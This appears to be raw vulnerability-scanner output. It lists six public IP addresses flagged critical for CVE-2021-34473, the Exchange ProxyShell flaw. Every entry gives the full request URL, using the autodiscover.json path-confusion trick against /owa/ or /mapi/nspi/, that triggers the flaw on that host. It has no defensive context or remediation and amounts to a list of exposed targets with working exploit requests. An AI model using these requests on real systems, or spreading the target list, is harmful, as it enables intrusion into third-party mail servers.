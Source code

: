 ## 176.118.29.187  
  
---  
[CVE-2021-34473] [http] [critical] https://176.118.29.187/autodiscover/autodiscover.json?@test.com/owa/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
[CVE-2021-34473] [http] [critical] https://176.118.29.187/autodiscover/autodiscover.json?@test.com/mapi/nspi/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
## 176.192.104.214  
  
---  
[CVE-2021-34473] [http] [critical] https://176.192.104.214/autodiscover/autodiscover.json?@test.com/owa/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
[CVE-2021-34473] [http] [critical] https://176.192.104.214/autodiscover/autodiscover.json?@test.com/mapi/nspi/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
## 176.215.4.40  
  
---  
[CVE-2021-34473] [http] [critical] https://176.215.4.40/autodiscover/autodiscover.json?@test.com/owa/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
[CVE-2021-34473] [http] [critical] https://176.215.4.40/autodiscover/autodiscover.json?@test.com/mapi/nspi/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
## 176.67.241.218  
  
---  
[CVE-2021-34473] [http] [critical] https://176.67.241.218/autodiscover/autodiscover.json?@test.com/owa/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
[CVE-2021-34473] [http] [critical] https://176.67.241.218/autodiscover/autodiscover.json?@test.com/mapi/nspi/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
## 109.202.10.220  
  
---  
[CVE-2021-34473] [http] [critical] https://109.202.10.220/autodiscover/autodiscover.json?@test.com/mapi/nspi/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
## 178.206.226.70  
  
---  
[CVE-2021-34473] [http] [critical] https://178.206.226.70/autodiscover/autodiscover.json?@test.com/owa/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
[CVE-2021-34473] [http] [critical] https://178.206.226.70/autodiscover/autodiscover.json?@test.com/mapi/nspi/?&Email=autodiscover/autodiscover.json%3F@test.com  
  